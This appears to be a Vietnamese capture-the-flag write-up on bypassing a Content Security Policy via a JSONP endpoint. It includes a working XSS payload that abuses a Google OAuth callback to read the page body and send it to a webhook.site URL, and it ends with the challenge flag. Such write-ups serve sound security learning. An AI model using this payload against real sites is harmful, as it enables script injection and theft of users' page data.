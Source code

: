 ```diff
@@ Web-Client Challenge @@
```

## CSP Bypass - JSONP [45 Points]

- Challenge cung cấp cho ta trang web như sau

  ![3](img/3.jpg)

-  Thử payload Reflect XSS ta thấy nó không thực thi được do CSP

  ![3-3](img/3-3.jpg)

- Vì đề là CSP Bypass nên ta sẽ kiểm tra Content Security Policy của trang này là gì

  ![3-1](img/3-1.jpg)

- Kiểm tra  trên trang CSP Evaluator ta thấy có 1 vị trí có thể khai thác

  ![3-2](img/3-2.jpg)

- Default - src là chỉ thị mặc định khi các chỉ thị khác bị thiếu, ở đây nó có nội dung là

  ```default-src 'self' https://*.google.com https://*.googleapis.com https://*.twitter.com;```

  Và trong list liệt kê ở trên, ta thấy trang web thiếu chỉ thị ```script-src``` => giá trị của ```script-src``` sẽ là giá trị của ```default-src```

- Ta thấy nó có thể thực thi các script từ các source có domain là  google.com  , googleapis.com,  twitter.com. Vậy ý tưởng là ta sẽ load script từ các nguồn trên vào trang web để thực thi. 

- Vì không thể thực hiện việc tạo 1 file javascript trên các domain này, ta thực hiện tìm kiếm giải pháp khác liên quan đến tiêu đề challenge - JSONP

- Tìm hiểu khái niệm JSONP ta có kết quả như sau

  ![3-5](img/3-5.jpg)

- Truyền dữ liệu giữa các domain khác nhau sẽ gặp lỗi Cross-domain, nhưng truyền script thì không. JSONP tận dụng lợi ích của điều này để truyền dữ liệu. Cụ thể nó sẽ truyền script qua bên nhận và bên nhận tự thực thi script đó để lấy dữ liệu.

- Từ đó, ta có ý tưởng tạo jsonp để lấy script từ các domain cho phép, có nghĩa là không cần tạo file javascript trên các domain đó nhưng vẫn load script về được. (dựa trên đặc điểm của jsonp)

- Thử tìm kiếm ta thấy có một trang của google cho phép tạo jsonp theo mong muốn.

  ![3-4](img/3-4.jpg)

- Đặt script mong  muốn của ta vào nội dung tham số callback => Ta đã có được source script để inject

  ```javascript
  Payload: <script src="https://accounts.google.com/o/oauth2/revoke?callback=function myFunction(){ var a = document.getElementsByTagName('body')[0].textContent; document.location='https://webhook.site/03c97039-b00e-4820-91c6-6424602b0e7f?c='.concat(a)}; setTimeout(myFunction, 2000)"></script>
  ```

  - Giải thích Payload: tham số callback nhận giá trị là một function, nên em định nghĩa ra một function để thực hiện đọc nội dung tag ```<body>``` của response. Sau đó gửi nội dung đó tới webhook của mình. Lưu ý ở đây là vì thẻ script nằm phía trên phần nội dung có flag, nếu script được trigger ngay lúc đó sẽ không đọc được nội dung bên dưới. Vậy nên ta phải dùng hàm setTimeout để đợi trình duyệt render hết nội dung của html rồi mới thực hiện script.

- Kết quả

  ![3-6](img/3-6.jpg)

  ```diff
  - Flag: CSP_4ND_JS0NP_ENDPOINT_B4D_ID3A
  ```

